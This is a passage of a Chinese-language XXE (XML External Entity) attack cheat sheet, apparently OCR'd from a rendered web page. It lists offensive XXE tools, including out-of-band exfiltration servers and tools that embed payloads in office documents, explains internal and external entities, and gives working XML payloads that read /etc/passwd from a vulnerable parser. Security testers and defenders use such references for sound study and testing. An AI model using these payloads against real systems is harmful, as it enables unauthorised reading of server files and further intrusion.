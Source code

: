     - [XLSX文件中的XXE](#xlsx文件中的xxe)
    - [DTD文件中的XXE](#dtd文件中的xxe)
- [实验](#实验)
- [防御措施](#防御措施)
- [参考资料](#参考资料)

## 工具

- [staaldraad/xxeftp](https://github.com/staaldraad/xxeserv) - 支持FTP的XXE有效载荷微型Web服务器
- [lc/230-OOB](https://github.com/lc/230-OOB) - 通过FTP检索文件内容的带外XXE服务器，支持通过[xxe.sh](http://xxe.sh/)生成有效载荷
- [enjoiz/XXEinjector](https://github.com/enjoiz/XXEinjector) - 使用直接和不同带外方法自动利用XXE漏洞的工具
- [BuffaloWill/oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - 将XXE/XML漏洞利用嵌入不同文件类型的工具(DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
- [whitel1st/docem](https://github.com/whitel1st/docem) - 在docx,odt,pptx等文件中嵌入XXE和XSS有效载荷的实用程序
- [bytehope/wwe](https://github.com/bytehope/wwe) - PoC工具(基于wrapwrap和lightyear)演示仅设置LIBXML_DTDLOAD或LIBXML_DTDATTR标志时PHP中的XXE

## 检测漏洞

**内部实体**：如果在DTD内声明实体，则称为内部实体。
语法：`<!ENTITY 实体名 "实体值">`

**外部实体**：如果在DTD外声明实体，则称为外部实体。通过`SYSTEM`标识。
语法：`<!ENTITY 实体名 SYSTEM "实体值">`

基本实体测试，当XML解析器解析外部实体时，结果应在`firstName`中包含"John"，在`lastName`中包含"Doe"。实体在`DOCTYPE`元素内定义。

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

在发送XML有效载荷到服务器时，设置`Content-Type: application/xml`可能会有所帮助。

## 利用XXE读取文件

### 经典XXE

尝试显示`/etc/passwd`文件内容。

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

